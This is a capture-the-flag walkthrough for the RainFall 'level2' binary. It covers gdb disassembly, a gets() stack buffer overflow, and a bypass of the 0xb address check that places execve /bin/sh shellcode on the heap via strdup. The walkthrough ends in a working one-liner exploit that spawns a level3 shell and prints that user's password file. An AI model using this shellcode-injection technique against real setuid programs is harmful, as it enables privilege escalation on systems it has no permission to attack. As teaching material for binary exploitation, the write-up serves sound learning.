 # Level2

## Walkthrough

We list the files in the current home directory.

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

The file is owned by **level3** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

There are 2 user-defined functions: `main()` and `p()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret
End of assembler dump.
```

The `main()` function calls the `p()` function.

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
```

The `p()` function:
- calls `gets()` and stores user input to `[ebp - 0x4c]`
- performs a bitwise `AND` operation on a copy of `old eip` located in `[ebp + 0x4]`, then compares it with `0xb0000000` and calls `exit()` if they are equal
- calls `puts()` to print `gets()` buffer
- calls `strdup()` to allocate a copy of the `gets()` buffer on the heap

Like in the previous level, we can exploit the executable with a **buffer overflow**, because no validation is performed in order to prevent the user from entering more than x characters during `gets()` and overwrite `old eip`.  
But there is no declared function to run in order to spawn a shell: we have to create our own **shellcode**.

We draw a diagram of the `p()` stack frame.

![Stack diagram](./resources/level2_diagram1.png)


We calculate the difference between the `old eip` in the stack and the `gets()` buffer: 108 - 28 = 80 bytes.

We run a **Python** script whichs writes to stdin:
- a **shellcode** that will be called thanks to the address replaced in `old eip`
- a payload of x characters to write a total of 80 characters
- the address of `[ebp - 0x4c]`, which is the pointer passed to `gets()`, where our shellcode will be stored

We find the address of `[ebp - 0x4c]` by setting a breakpoint before `gets()` in order to catch the address on the top of stack: the first argument passed to the called function.

```
(gdb) b *0x080484ed
Breakpoint 1 at 0x80484ed
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484ed in p ()
(gdb) i r esp
esp            0xbffff5d0       0xbffff5d0
(gdb) x 0xbffff5d0
0xbffff5d0:     0xbffff5ec
```

The address of `[ebp - 0x4c]` is `0xbffff5ec`.

```bash
level2@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + 'A' * 55 + '\xec\xf5\xff\xbf')"; cat) | ./level2 
(0xbffff5ec)
whoami
```

Unfortunately our script doesn't work because of the comparison done in the `p()` function.  
It checks if `old eip` starts with `0xb` and calls `exit()` if it's the case. Because the address of `[ebp - 0x4c]` is `0xbffff5ec`, the result of the comparison is true. And we cannot use an adjacent memory address in order to store our shellcode, because they all start with `0xb`.

After reviewing the `p()` function, we notice that it is calling `strdup()` which in return calls `malloc()` and so allocates memory on the **heap**, which addresses are not close to the stack.  
We use the `ltrace` command to intercept the library calls and get the location in memory of our duplicated string.

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff714, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff61c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff61c
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

We rewrite the previous command in order to account for the changes: `0xbffff5ec` is replaced by `0x0804a008`.

```bash
level2@RainFall:~$ (python -c "print('\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80' + 'A' * 55 + '\x08\xa0\x04\x08')"; cat) | ./level2 
���//sh�/binQVW�$�
                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Resources

- [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](https://0xrick.github.io/binary-exploitation/bof5/#building-the-exploit)
- [BlackCloud - Shellcodes](https://blackcloud.me/shellcodes)
